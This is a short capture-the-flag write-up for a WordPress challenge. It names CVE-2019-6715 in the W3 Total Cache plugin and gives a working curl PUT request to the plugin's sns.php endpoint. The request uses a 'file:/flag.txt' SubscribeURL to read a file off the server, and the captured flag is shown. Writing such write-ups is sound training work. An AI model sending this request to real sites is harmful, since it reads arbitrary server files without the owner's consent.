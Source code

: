 # CTF Name – Dunder Mifflin Infinity

- **Category:** category
- **Points:** points

## Challenge

> The Dunder Miflin Infinity has been under construction for a while. As previously mentioned some of the components are also getting quite outdated....

> This is part 2 where you need to find a second flag on the WordPress site (flag.txt)

http://dminfinity.seekurity.com.au/

## Solution

CVE-2019-6715

Eg. https://github.com/random-robbie/cve-2019-6715

curl -X PUT --data '{"Type":"SubscriptionConfirmation","Message":"","SubscribeURL":"file:/flag.txt"}' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.80 Safari/537.36' http://dminfinity.seekurity.com.au/wp-content/plugins/w3-total-cache/pub/sns.php

```
flag{svy2PSW2ev5v4Fee}
```
